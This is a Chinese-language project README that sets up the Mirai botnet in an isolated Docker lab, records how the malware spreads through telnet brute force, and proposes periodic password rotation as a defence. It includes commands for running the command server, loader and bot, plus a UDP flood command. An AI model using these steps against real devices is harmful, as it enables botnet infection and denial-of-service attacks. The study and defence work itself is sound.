




# Docker Setup
## 建立給Docker的網路
    docker network create --subnet=172.20.0.0/16 botnet 
## CNC （控制病毒的Server)
    sudo docker run --net botnet --ip 172.20.0.2 -it cnc

## Loader (負責將病毒注入)
    sudo docker run --net botnet --ip 172.20.0.4 -i -t loader 
    ./init.sh

## 感染源
    sudo docker run --net botnet -i -t bot 
    ./init.sh 0/1  # 1 for scanner 

# 如何攻擊
## 連線到CNC 
    telnet "IP" 
    ＃username/password : root

## Attack(udp)
    udpplain targetIP 5 dport=UDPport
# Mirai觀察結果
由於Mirai是由多種語言寫成，且為了防止被破解，在多處採用隱晦的寫法撰寫，導致原始碼讀取不易。所以我們採用打開Debug模式觀察病毒的運行。
## 感染源
如果有打開Scanner模式，病毒便會掃描網路中的裝置是否開啟telnet port (23)，一但發現便會用簡單密碼字典暴力破解。
## 成功感染
密碼破解後，病毒會向Loader傳送裝置資訊以注入病毒。 \
受感染後，會掃描是否有其他病毒並將其清除(600秒一次)

## 其他
在看過網路上資安專家的原始碼分析後，還有發現裝置感染後病毒會馬上消滅任何使用port 22,23,80(ssh,telnet,http)的process
# 遭遇的問題
## 計畫書構想
當初解決方案是發現病毒後，由於病毒只在RAM，遠端reboot就可以將其清除，但由於ssh telnet http都被關閉，這使遠端控制幾乎不可能
## 消滅方法
目前有人反制mirai的方式是利用他處理http redirect的漏洞，如果server redirect一個空的Location給他，他便會在字串處理中buffer overflow，導致整個病毒crash，但這僅限執行http flood攻擊時且為server端的反制方法
# 新方案 
## 預防
由於受感染後裝置無法遠端控制，預防勝於治療，在一定時間後，由主控端將管理的裝置密碼更改成新的複雜密碼
## 優點
Mirai的變種大多數還是使用字典攻擊，複雜密碼可以預防被破解，定期更換可以反制線上更新字典的變種Mirai \
通用性高
## 問題討論
### 產生密碼
需要找出好方法產生“隨機”且安全的密碼 避免重複 
### 密碼保存
明碼儲存可能有資安問題
### 通訊安全
由於大多數iot裝置無法使用太多複雜功能，ssh在某些裝置可能無法使用，telnet還是佔大多數(不安全?)

